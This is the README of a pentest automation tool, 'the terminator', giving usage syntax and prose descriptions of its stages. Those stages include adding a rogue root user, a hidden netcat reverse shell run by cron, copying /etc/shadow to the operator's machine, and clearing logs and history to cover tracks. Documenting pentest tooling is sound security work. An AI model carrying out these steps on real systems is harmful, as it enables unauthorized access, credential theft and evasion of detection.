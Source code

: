 # the terminator
+++ a tool for automating common techniques for the enumeration, privilege escalation, persistence, exfiltration, and reporting stages of a pentest +++

- *feel free to use and test the terminator and share your suggestions in the Discussions*
# contents
the terminator automates every stage of a penetration test *except* gaining the initial shell (there are too many possible ways to get an initial shell for it to be reliably automated, and it can depend on a multitude of nuanced vulnerabilities, so that stage is up to you, good luck!)
- terminator.py - tool for automating simple methods for enumeration, privilege escalation, persistence, exfiltration, and reporting
- directory-list.txt - default wordlist of common directory names for web enumeration (use -w in 'enum' module to specify a different wordlist)

you can also use the individual scripts in the *indiv-scripts* folder to isolate an individual stage of the pentest

# how to use
terminator.py has four modules (enum, priv, root, and report):
- enum - enumerate the target ip
- priv - attempt privilege escalation on target machine
- root - with root privileges, esetablish persistence and exfiltrate system data to local machine
- report - create .txt and .docx report files on local machine from data gathered using the previous modules

because terminator only automates the most common penetration testing procedures, you will still need to put in some manual work if terminator is not successful. this tool is simply to speed up and automate the simple tasks.

- clone the repository to your computer with "git clone https://github.com/suffs811/the-terminator.git"
- if you choose to only download terminator.py and not the entire repo, you will need to specify a directory wordlist for webpage enumeration ("-w" with the "enum" module of terminator.py)

<> note: for full terminator productivity, you will need to run the script *four* separate times:
first on your own machine, second time on the target machine after gaining initial shell, third time on target machine after gaining root privileges, and fourth time on your local machine to compile the report.

terminator.py will create a .txt file and a Word (.docx) file from terminator's findings as the report

*for help with usage, use the -h flag or grep for 'usage' in the script (grep "usage" terminator.py)*

*hint: local machine = your own machine*

# syntax
(stage 1-enumerating target from local machine):
- python3 terminator.py enum -t <target_ip_to_enumerate>
(optional: -w <path_to_directory_wordlist> (otherwise, terminator will use default list))

(stage 2-privilege escalation after gaining shell on target machine):
- python3 terminator.py priv -u <new_root_username> -p <new_root_passwd> 

(stage 3-persistence/data exfiltration after gaining root privileges on target machine):
- python3 terminator.py root -u <new_user_name> -p <new_user_passwd> -l <local_ip> -x <local_listening_port>
(optional: -f (bypass root permissions check))

(stage 4-create report on local machine):
- python3 terminator.py report -o <output_file_name>

# details
stage 1 - enumeration
- initial nmap scan to find open ports on host
- secondary nmap scan to identify services running on open ports
- if http in use, run nikto, gobuster, curl robots.txt, and searchsploit for service version exploits
- if smb in use, run enum4linux and nmap scripts to scan smb shares and users
- if ftp in use, run nmap scripts to determine if ftp allows 'anonymous' logon
- if nfs in use, run nmap scripts to identify service status and mounted shares

stage 2 - privilege escalation
- attempt to disable history logging of current session and create current backups of log files
- attempt running sudo-l to find commands user can run as sudo, then run the command if it does not require user interaction; if it does, then print to screen
- find files with suid bitset and if the binary exists in terminator's dictionary, execute the code; if it needs user interaction, print to screen
- run strings on suid files to find commands that do not specify command's full path, then create binary file in /tmp, echo '/bin/bash -p' to file, add /tmp to $PATH, execute binary
- check if /etc/passwd or /etc/shadow are world-writable; if either one is, create password from user input and append new root user to the file; su user for root

stage 3 - persistence and data exfiltration (ensure ssh is active on local machine)
- check for root permissions and suggest -f to bypass root check
- if root permissions is true, create password from user input, add new root user to /etc/passwd, /etc/shadow files and add to root group
- create shell script at /dev/shm/.data/data_log containing netcat reverse shell at ip:port from user input
- create cronjob in /etc/crontab to execute the shell script every 5 minutes

- write id,whoami,netstat and /etc/passwd,/etc/shadow,/etc/hosts,/etc/crontab,/etc/exports, and suid files to single file and scp the file to local machine using ip from user input to local 'root' user; *scp will prompt for local user's root password on local machine*
- cover tracks by clearing log files and history, restoring log files to the copies made during stage 2, deleting all files created by terminator, and deleting terminator.py itself

stage 4 - report writing
- add contents from enum.txt (enumeration data), priv.txt (privilege escalation vector used to gain root privileges), and data_exfil.txt (peristence and target machine data) to .txt and .docx files with headings; use -o to specify desired file name

# TO DO
- create vm to help people learn how to use the terminator

# credit and license
Copyright (c) 2023 suffs811

https://github.com/suffs811

This project is licensed under the MIT License - see the LICENSE file for details.

directory-list.txt comes from SecLists' common.txt list of directory names. it can be found here: https://github.com/suffs811/SecLists/blob/master/Discovery/Web-Content/common.txt

*terminator has been tested on kali linux 2022.4 (local machine) and ubuntu unity 22.10 (target machine)*

-+- Leave a comment if you have any questions! -+-
